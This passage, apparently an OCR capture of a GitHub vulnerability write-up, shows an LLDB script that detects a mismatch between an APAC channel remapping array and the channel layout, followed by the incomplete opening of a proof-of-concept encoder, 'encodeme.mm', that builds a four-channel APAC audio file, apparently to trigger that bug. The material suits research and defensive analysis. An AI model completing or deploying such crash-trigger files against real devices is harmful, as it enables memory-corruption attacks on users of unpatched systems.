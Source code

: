 ```python
            print(f"[check-mismatch] remappingArray size: {count_remap}")
            print(f"[check-mismatch] mChannelDescriptions count: {count_layout}")

            if count_remap != count_layout:
                print("[check-mismatch] ❗️Mismatch detected!")
            else:
                print("[check-mismatch] ✅ Arrays are consistent")
        else:
            print("[check-mismatch] Error: Unable to resolve remappingArray or layout")
    except Exception as e:
        print(f"[check-mismatch] Exception: {e}")
```

Usage:
```lldb
command script import check-mismatch.py
check-mismatch
```

---

## 🎵 2. PoC Encoder: `encodeme.mm`

```objc
#import <AudioToolbox/AudioToolbox.h>

void encodeToAPAC() {
    NSString *inputPath = @"/path/to/input.wav";
    NSString *outputPath = @"/path/to/output_apac.m4a";

    NSURL *inputURL = [NSURL fileURLWithPath:inputPath];
    NSURL *outputURL = [NSURL fileURLWithPath:outputPath];

    ExtAudioFileRef inFile = NULL;
    ExtAudioFileRef outFile = NULL;
    OSStatus status;

    AudioStreamBasicDescription inFormat;
    UInt32 propSize = sizeof(inFormat);

    status = ExtAudioFileOpenURL((__bridge CFURLRef)inputURL, &inFile);
    ExtAudioFileGetProperty(inFile, kExtAudioFileProperty_FileDataFormat, &propSize, &inFormat);

    AudioStreamBasicDescription apacFormat = {0};
    apacFormat.mSampleRate = 48000;
    apacFormat.mFormatID = kAudioFormatAPAC;
    apacFormat.mChannelsPerFrame = 4;
    apacFormat.mFramesPerPacket = 1024;

    ExtAudioFileCreateWithURL((__bridge CFURLRef)outputURL,
                               kAudioFileM4AType,
                               &apacFormat,
                               NULL,
                               kAudioFileFlags_EraseFile,
                               &outFile);

    ExtAudioFileSetProperty(outFile, kExtAudioFileProperty_ClientDataFormat, sizeof(inFormat), &inFormat);

    UInt32 bufferSize = 4096;
    UInt8 buffer[bufferSize];
    AudioBufferList bufferList = {0};
    bufferList.mNumberBuffers = 1;
    bufferList.mBuffers[0].mData = buffer;
```